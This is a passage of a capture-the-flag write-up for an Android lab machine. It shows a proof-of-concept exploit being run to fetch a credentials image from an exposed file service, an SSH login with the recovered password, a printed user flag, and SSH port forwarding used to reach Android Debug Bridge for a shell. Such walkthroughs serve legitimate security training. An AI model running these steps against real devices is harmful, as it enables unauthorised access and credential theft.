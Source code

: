 ```console
└──╼ [★]$ python3 poc.py -g /storage/emulated/0/DCIM/creds.jpg --host 10.129.50.183
[*] Getting file: /storage/emulated/0/DCIM/creds.jpg
	from: 10.129.50.183
[*] Server responded with: 200
[*] Writing to file: creds.jpg
```
Nice we get some credentials for Kristi.

Note: All of the commands for how to use the exploit are on the github page linked above.

![image](https://user-images.githubusercontent.com/105310322/187546075-5fa48056-3f25-4ff8-b990-1925ad3e2572.png)


Input the Strong Password ```Kr1sT!5h@Rp3xPl0r3!``` and we are in!

```console
└──╼ [★]$ ssh -p 2222 kristi@10.129.50.183
Password authentication
Password: 
:/ $
```
I was getting denied when trying to view but diving a little deeper let us in to cat the user flag.

Note: This flag is also found in /sdcard and there were no issues viewing it there.

```console
:/storage $ ls /storage/emulated/                                              
ls: /storage/emulated/: Permission denied
1|:/storage $ ls /storage/emulated/0                                           
Alarms  DCIM     Movies Notifications Podcasts  backups   user.txt 
Android Download Music  Pictures      Ringtones dianxinos 
1|:/storage $ cat /storage/emulated/0/user.txt                                 
f32017174c7c7e8f50c6da52891ae250
:/storage $ 
```
With this being my first android machine I tried a few different methods similar to linux boxes, but I was not getting anywhere.

Then I remembered how I tried to use adb to connect to port 5555 and debug.

This time instead of using a simple ``adb connect 10.129.50.183:5555```

I am going to have Kristi set it up and then connect via my host computer.

```console
└──╼ [★]$ ssh -p 2222 -L 5555:localhost:5555 kristi@10.129.50.183
Password authentication
Password: 
:/ $ 
```
Now that Kristi is connected lets run adb again.

```console
└──╼ [★]$ adb connect localhost:5555
connected to localhost:5555
```
Now that we are connected just open a shell and we are in! But we are not root yet.
